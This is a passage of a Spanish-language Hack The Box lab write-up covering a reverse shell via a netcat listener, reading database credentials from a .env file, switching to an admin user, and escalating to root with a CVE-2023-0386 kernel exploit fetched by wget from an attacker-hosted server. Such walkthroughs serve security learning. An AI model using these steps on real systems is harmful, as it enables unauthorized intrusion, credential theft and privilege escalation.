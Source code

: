 ## 6. Reverse Shell
Como descubrí que la Web ofrece VPNs en función del usuario, y estar definidos como usuarios:
### En Maquina atacante:
Abro una segunda terminal donde escucho en el puerto 443.
```bash
nc -nlvp 443
```

## En Maquina objetivo:
<img width="777" height="98" alt="Captura de pantalla 2025-08-13 151425" src="https://github.com/user-attachments/assets/5ede914f-5501-44c6-b776-50ca4397c543" />

# 📌 Logramos acceso como www-data.

## 7. Enumeración interna

Flag de usuario obtenida en /.

voy a la carpeta html y hago un ls -la y me fijo en un mensaje .ev
```bash
/var/www/html/: cat .env
```
información relevant en .env:
```
DB_USERNAME=Admin
DB_PASSWORD=SuperDuperPass123
```
<img width="1302" height="655" alt="Captura de pantalla 2025-08-13 153251" src="https://github.com/user-attachments/assets/78b67315-0b50-40fa-871b-f3ec0199d8b4" />

Hago login como admin con las credenciales que acabo de encontrar:
```
su admin
```
# 📌 Logramos acceso como admin

## 8. Escalada a root – CVE-2023-0386

filtro busqueda de directorios del admin, y encuentro ```/var/mail/admin```
y encuentro correo interno menciona problemas con OverlayFS/FUSE.
<img width="1321" height="284" alt="Captura de pantalla 2025-08-13 153944" src="https://github.com/user-attachments/assets/cb29c40b-e6ae-4b55-83aa-1566189d2e80" />

Me apresuro a Googlear y encuentro:
Kernel vulnerable a CVE-2023-0386.

Descargo un exploit en GitHub desde mi propia maquina y lo transfiero a la maquina objetivo.
Transferencia del exploit:

## En maquina atacante:
```python3 -m http.server 8080```

## En objetivo:
```wget http://<IP_atacante>/archivo.zip```

Y procedemos a ejecutar el [Exploit](https://github.com/puckiestyle/CVE-2023-0386)

# [📌 Obtenemos acceso root.](https://labs.hackthebox.com/achievement/machine/2448097/547)

---
## Análisis técnico

```